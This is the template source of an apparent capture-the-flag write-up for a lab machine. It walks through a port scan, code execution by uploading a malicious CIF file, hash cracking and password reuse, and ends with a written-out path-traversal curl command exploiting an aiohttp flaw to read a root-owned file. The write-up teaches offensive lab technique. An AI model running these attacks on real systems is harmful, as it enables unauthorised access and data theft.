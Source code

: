 {% from "macros.html" import console, image, text, code, list, link, header, script, imageModal %}

{{imageModal()}}

{{header("Enumeration", "enumeration")}}

{{text("We run a port scan.")}}

{{console("nmap -T5 -p- 10.10.200.176", "Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-28 21:14 CET
Warning: 10.10.11.38 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.10.11.38
Host is up (0.069s latency).
Not shown: 65065 closed tcp ports (reset), 468 filtered tcp ports (no-response)
PORT     STATE SERVICE
22/tcp   open  ssh
| ssh-hostkey: 
|   3072 b6:fc:20:ae:9d:1d:45:1d:0b:ce:d9:d0:20:f2:6f:dc (RSA)
|   256 f1:ae:1c:3e:1d:ea:55:44:6c:2f:f2:56:8d:62:3c:2b (ECDSA)
|_  256 94:42:1b:78:f2:51:87:07:3e:97:26:c9:a2:5c:0a:26 (ED25519)
5000/tcp open  upnp

Nmap done: 1 IP address (1 host up) scanned in 206.70 seconds")}}

{{list(['22 (SSH)', '5000 (upnp)'])}}

{{text("Let's begin by checking out the web page on port 8000.")}}

{{text("It is a tool used for analysing <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>CIF</code> files.")}}

{{image("../../static/writeups/chemistry/images/000001.jpg")}}

{{text("I searched for known exploits that utilise uploading CIF files.")}}

{{link("https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f", "../../static/writeups/images/github.jpg", "Arbitrary code execution when parsing a maliciously crafted JonesFaithfulTransformation transformation_string
")}}

{{text("I modified the code a little, so that it would grant me a reverse shell.")}}

{{image("../../static/writeups/chemistry/images/000002.jpg")}}

{{text("I uploaded it onto the site, started a listener and viewed it.")}}

{{text("Now I had RCE on the target machine.")}}

{{image("../../static/writeups/chemistry/images/000003.jpg")}}

{{header("Shell as rosa", "shell-as-rosa")}}

{{text("I found a <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>database.db</code> file in the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/home/app/instance</code> directory.")}}

{{text("After I downloaded it onto my machine, I used <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>sqlitebrowser</code> to browse through the data it contained.")}}

{{image("../../static/writeups/chemistry/images/000004.jpg")}}

{{text("There were a lot of accounts in the database. By using <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>crackstation.net</code> I was able to crack one of the hashes.")}}

{{image("../../static/writeups/chemistry/images/000005.jpg")}}

{{text("Now I had the password of user <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>rosa</code>. I confirmed the existence of such user because of his home folder and I guessed he reused his passwords.")}}

{{text("Logging in by SSH with the cracked password worked.")}}

{{header("Final flag", "final-flag")}}

{{text("Now as a user, I saw that there was a service running on port 8080, which was accessible only from the same machine.")}}

{{console("netstat -tulnp", "(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:5000            0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -                   
udp        0      0 0.0.0.0:68              0.0.0.0:*                           -          ")}}

{{text("I continued to gather more information about this service, and discovered what the server was running.")}}

{{console("curl localhost:8080 --head", "HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 5971
Date: Sun, 29 Dec 2024 10:31:45 GMT
Server: Python/3.9 aiohttp/3.9.1")}}

{{text("I search for known exploits for <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>aiohttp/3.9.1</code>.")}}

{{link("https://github.com/jhonnybonny/CVE-2024-23334", "../../static/writeups/images/github.jpg", "CVE-2024-23334 PoC")}}

{{text("I only used the same command that the script did, with a slight tweak.")}}

{{console("curl --path-as-is localhost:8080/assets/../../../../../root/root.txt")}}

{{image("../../static/writeups/chemistry/images/000006.jpg")}}

{{script()}}